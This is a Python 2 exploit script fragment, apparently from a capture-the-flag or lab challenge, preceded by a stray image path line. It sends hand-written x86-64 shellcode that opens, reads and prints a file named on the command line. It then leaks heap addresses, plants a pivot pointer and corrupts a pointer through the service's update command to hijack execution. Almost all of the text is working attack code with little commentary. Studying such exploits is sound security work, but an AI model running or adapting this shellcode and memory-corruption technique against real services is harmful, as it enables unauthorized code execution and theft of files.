 ```
length = len(sys.argv[1])
filename = sys.argv[1].strip()
# send first string. this will be our shellcode
s.send('c 0 \xeb\x3f\x5f\x80\x77'+struct.pack('<b', length)+'\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff'+filename+'A\n')

time.sleep(0.1)
#s.recv(2)  # receive pesky '> '
data = s.recv(64)
p_shellcode = getID(data)

print '[+] shellcode = 0x{0:08x}'.format(p_shellcode)

# send second string. this will be our 'pivot' pointer.
s.send('c 0 ' + struct.pack('<L', p_shellcode) + '\n')

time.sleep(0.1)
data = s.recv(64)
p_pivot = getID(data)

print '[+] pivot = 0x{0:08x}'.format(p_pivot)

# let's crash the binary to see if this works
s.send("c 1\n")

time.sleep(0.1)
data = s.recv(64)
p_tmp = getID(data)

s.send('u ' + str(p_tmp) + ' ' + struct.pack('<L', p_pivot-0x10) + '\n')

time.sleep(0.1)
data = s.recv(64)
p_vuln = getID(data)

print '[+] vulnerable pointer = 0x{0:08x}'.format(p_vuln)

# send read request to crash binary
s.send('r ' + str(p_vuln) + '\n')

time.sleep(0.1)
print s.recv(1024)

# terminate connection cleanly
time.sleep(0.1)
s.send('x\n')

s.close()
```
